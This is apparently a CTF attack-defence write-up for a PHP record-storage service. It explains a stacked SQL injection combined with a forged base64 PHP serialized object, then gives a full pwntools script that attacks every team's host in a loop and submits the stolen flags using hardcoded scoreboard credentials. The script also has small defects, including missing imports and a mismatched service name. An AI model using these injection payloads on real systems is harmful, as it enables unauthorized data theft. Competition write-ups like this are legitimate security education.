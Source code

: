 # Challenge `php-foo`


## Application:

The application stores secret records with the following opitons:

```
    Welcome!
    You can do the following:
        0) encrypt
        1) decrypt
        2) store new record
        3) retrieve your record
        4) exit

    What do you want to do?
```

if we look into the code from `troll.php`, we see that messages wont be encrypted at all:
![not encrypted](not_crypted.png)

furthermore we see a possible injection in `crypto.php`
![not encrypted](injection.png)

## Exploit:

to exploit the vulernability, we decided to do a multistage payload.

1. Insert an entry of our liking with a primary key of our liking.
2. Get the primary key of the latest entry starting with "FLAG" and write it in the entry of step 1.
3. use the vlaue of entry created in step 1. and updated in step 2. as primary key to retreive the data.
4. submit the flag to the flagserver.

the injection strings will look like that:

```python
stage1 = 'insert into record values("%s","foo","12");' % _pkey
stage2 = 'update record set record = (select identifier from record where record like "FLG%%" order by time desc limit 1) where identifier = "%s" ;' % _pkey
stage3 = 'select record from record where identifier = "%s"' % _pkey
```

the stages need some additional wrapping which is done by the following function:

```python
def getStage(input):
    return "baar', 'foo'); %s ; insert into record values ('foobar6','foobar6"  % input
```

in step 3, we actually have to somehow "serialize" the data
which we did with the following function:

```python
def bake64(input):
    _size = len(input)
    temp = 'a:1:{i:0;O:6:"Record":1:{s:10:"identifier";s:%s:"%s";}}' % (_size,input)
    return base64.b64encode(temp)
```

to not interfere with previous runs of the exploit or another instance of our exploit we generate a timestamp on our primary key

```python
_pkey = 're1n3r'+str(int(time.time()))
```


## Final exploit

```python
from pwn import *
import requests
import base64
import time
from requests.auth import HTTPBasicAuth
import itertools
import traceback
import random
context.log_level = 'info'

_pkey = 're1n3r'+str(int(time.time()))

stage1 = 'insert into record values("%s","foo","12");' % _pkey
stage2 = 'update record set record = (select identifier from record where record like "FLG%%" order by time desc limit 1) where identifier = "%s" ;' % _pkey
stage3 = 'select record from record where identifier = "%s"' % _pkey


def bake64(input):
    _size = len(input)
    temp = 'a:1:{i:0;O:6:"Record":1:{s:10:"identifier";s:%s:"%s";}}' % (_size,input)
    return base64.b64encode(temp)


def getStage(input):
    return "baar', 'foo'); %s ; insert into record values ('foobar6','foobar6"  % input


while True:
    resp_machines = requests.get('https://scoreboard.ctf.cinsects.de/ctf/targets/', auth=HTTPBasicAuth('Re1n3r', 'lolwut'),verify=False)
    data_machines = resp_machines.json()
    # specify service
    service_go = 'go-foo'

    # store all flags here
    flags = []
    test = data_machines[service_go].items()
    random.shuffle(test)
    # for each machine
    for team, value in test :
            ip = value[0]
            try:
                t = remote(ip, 1338,timeout=20)
                for limit in itertools.count():
                        t.recvuntil('What do you want to do?')
                        t.sendline('2')
                        t.recvuntil('add: ')
                        #insert cyber123
                        t.sendline(getStage(stage1))
                        t.recvuntil('What do you want to do?')
                        t.sendline('2')
                        t.recvuntil('add: ')
                        #get actual flag key and write it into cyber123 pkey
                        t.sendline(getStage(stage2))
                        t.recvuntil('What do you want to do?')
                        t.sendline('3')
                        r1 = t.recvuntil('identifier: ')
                        print r1
                        #retreive key from cyber123 pkey
                        t.sendline(bake64(_pkey))
                        print("stage 3:")
                        flagkey = t.recvline()
                        print("flagkey: %s" % flagkey)
                        flagkey = flagkey.replace('\n','').replace('\r','')
                        pprint(flagkey)
                        t.recvuntil('What do you want to do?')
                        t.sendline('3')
                        t.sendline(flagkey)
                        keys = t.recvuntil("Welcome")
                        keys = keys.split(":")[2].strip().replace('\n','').replace('\r','').replace('Welcome','')
                        print("keys: %r" % keys)
                        ##########
                        t.recvuntil('What do you want to do?')
                        t.sendline('3')
                        print("SENDLINE 3")
                        t.sendline(bake64(keys))
                        myflag = t.recvuntil("Welcome!")
                        print("WELCOME AGAIN")
                        print("flag: %r" % myflag)
                        t.close()
                        print("send flag: %r" % myflag)

                        mo = re.search(r'\b(FLG[0-9a-zA-Z]{30})\b', myflag)
                        if mo:
                            actual_flag = mo.group(0)
                            url = 'https://scoreboard.ctf.cinsects.de/ctf/submit_flag/'
                            resp_flags = requests.post(url, auth=HTTPBasicAuth('Re1n3r', 'lolwut'), json={'flags': [actual_flag]})
                            print(resp_flags.text)

            except Exception as e:
                #traceback.print_exc()
                print("shit... %s" % e )
                continue
    time.sleep(300)


```
